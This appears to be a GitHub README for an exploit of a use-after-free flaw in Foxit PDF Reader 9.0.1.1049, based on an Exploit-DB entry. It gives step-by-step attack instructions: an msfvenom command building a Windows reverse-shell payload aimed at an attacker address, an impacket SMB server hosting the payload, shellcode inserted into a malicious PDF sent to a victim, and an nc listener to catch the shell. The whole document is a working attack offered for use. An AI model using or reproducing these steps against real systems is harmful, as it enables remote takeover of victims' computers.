 #Foxit PDF Reader 9.0.1.1049 - Pointer Overwrite Use-After-Free (Without Metasploit)

Based on https://www.exploit-db.com/exploits/45269

1. Generate payload, the one i used for testing is:
  - msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.10 LPORT=443 -f exe > shell.exe

2. Open an SMB server with the payload in it
  - impacket-smbserver sharename /path/to/payload

3. Generate shellcode with the following script
 - ruby generate_shellcode.rb

4. Copy the output of the script and put it inside exploit.pdf, on the reclaim() function, where specified

5. Transfer exploit.pdf to victim

6. Open a listener on the attacking machine, in my case:
- nc -lnvp 443

7. Open exploit.pdf with the vulnerable version of foxit reader on the target

#PWNED
